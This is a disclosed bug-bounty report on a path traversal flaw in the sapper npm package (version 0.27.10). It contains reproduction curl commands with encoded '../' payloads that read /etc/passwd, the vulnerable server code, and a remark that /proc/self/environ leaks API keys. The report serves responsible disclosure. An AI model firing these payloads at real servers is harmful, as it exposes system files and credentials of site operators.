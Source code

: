 # [sapper] Path Traversal

## Report Details
- **Report ID**: 820224
- **URL**: https://hackerone.com/reports/820224
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-03-16T14:09:41.426Z
- **Disclosed**: 2020-06-18T20:41:23.088Z

## Reporter
- **Username**: anvikha
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a critical path traversal vunerability in the sapper module
It allows an attacker to simply obain arbitrary files from the remote server, exploiting a simple path traversal using URL-encoded "../".

# Module

**module name:** sapper
**version:** 0.27.10
**npm page:** `https://www.npmjs.com/package/sapper`

## Module Description

Sapper is a framework for building high-performance universal web apps. Read the guide or the introductory blog post to learn more.

## Module Stats

[6,762] weekly downloads

# Vulnerability

## Vulnerability Description

The vulnerability was found by playing with a sapper / webpack stack while researching vulnerabilities on internal projects. 
I started to dig deeper on how static files were served, and I've noticed that the module allowed a trivial path traversal in its code.

## Steps To Reproduce:

1. Clone https://github.com/sveltejs/sapper-template project
2. `npm i`
3. Use `degit` to obtain the webpack example app: `npx degit "sveltejs/sapper-template#webpack" my-app`
4. `npx sapper dev` - **exploit** with `curl -vv http://localhost:3000/client/750af05c3a69ddc6073a/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
This also works in prod mode with
4. `npx sapper build && node __sapper__build` - **exploit** with `curl -vvv http://localhost:3000/client/750af05c3a69ddc6073a/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd`
 
The reason why the production deployment requires an extra-layer of URL encoding is because this project runs under polka in production, which, contrary to express for example, applies an extra `decodeURIComponent` on the URI.

## Patch

Sapper server simply forms a path with `path.resolve` using the `build_dir` as base directory and the URI-decoded `file` passed in the URL, resulting in a path traversal. 
I am not providing a patch here, but here I've identified the vulnerable code:

sapper/runtime/server.mjs
------------

```
function serve({ prefix, pathname, cache_control }



) {
  const filter = pathname
    ? (req) => req.path === pathname
    : (req) => req.path.startsWith(prefix);

  const cache = new Map();

  const read = dev
    ? (file) => fs.readFileSync(path.resolve(build_dir, file))
    : (file) => (cache.has(file) ? cache : cache.set(file, fs.readFileSync(path.resolve(build_dir, file)))).get(file);

  return (req, res, next) => {
    if (filter(req)) {
    const type = lookup(req.path);

    try {
      const file = decodeURIComponent(req.path.slice(1));
      const data = read(file);

      res.setHeader('Content-Type', type);
      res.setHeader('Cache-Control', cache_control);
      res.end(data);
```

## Supporting Material/References:

- OS: Debian Linux sid
- NodeJS: v10.19.0
- NPM: 6.13.4

# Wrap up

- I contacted the maintainer to let them know: Y
- I opened an issue in the related repository: N - I think this is too severe and impacts too many sites to make it public. 

![geat success](https://media.makeameme.org/created/very-nice-great-j9n9bg.jpg)

## Impact

Any file can be retrieved from the remote server, namely stuff like /proc/self/environ, which would contain any sort of API keys used by the environment the application has been deployed too. This will lead to complete infrastructure RCE and takeover.

## Attachments
No attachments
